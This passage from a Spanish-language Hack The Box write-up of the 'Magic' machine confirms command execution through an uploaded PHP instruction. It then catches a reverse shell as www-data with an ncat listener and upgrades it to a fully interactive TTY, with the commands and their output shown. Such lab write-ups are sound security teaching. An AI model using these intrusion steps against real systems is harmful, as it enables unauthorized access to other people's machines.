 
Validamos si podemos ejecutar comandos gracias a la instrucción php que añadimos y tenemos ejecución de comandos.

![](/assets/images/HTB/htb-writeup-Magic/magic16.PNG)

Ahora con bash vamos a enviarnos una reverse shell, para ello nos pondremos en escucha con `ncat` en el puerto `443` y obtenemos acceso como el usuario `www-data`

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.185.
Ncat: Connection from 10.10.10.185:51270.
bash: cannot set terminal process group (1136): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$ whoami
whoami
www-data
```

Ahora como de costumbre vamos a otorgarnos una `tty full interactiva`.

```bash
www-data@ubuntu:/var/www/Magic/images/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@ubuntu:/var/www/Magic/images/uploads$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
www-data@ubuntu:/var/www/Magic/images/uploads$ export TERM=xterm
www-data@ubuntu:/var/www/Magic/images/uploads$ export SHELL=bash 
www-data@ubuntu:/var/www/Magic/images/uploads$ stty rows 45 columns 184
```
